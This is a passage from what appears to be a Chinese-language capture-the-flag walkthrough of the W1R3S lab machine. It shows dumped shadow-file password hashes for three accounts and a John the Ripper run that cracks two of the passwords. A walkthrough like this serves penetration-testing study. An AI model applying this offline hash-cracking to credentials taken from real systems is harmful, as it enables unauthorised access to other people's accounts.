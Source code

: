 ![image-20240601122841887](./assets/image-20240601122841887.png)

## 破解Hash

整理用户hash到文件hash.txt中

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

```

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ sudo john hash.txt
[sudo] password for kali:
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
www-data         (www-data)
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
computer         (w1r3s)

```
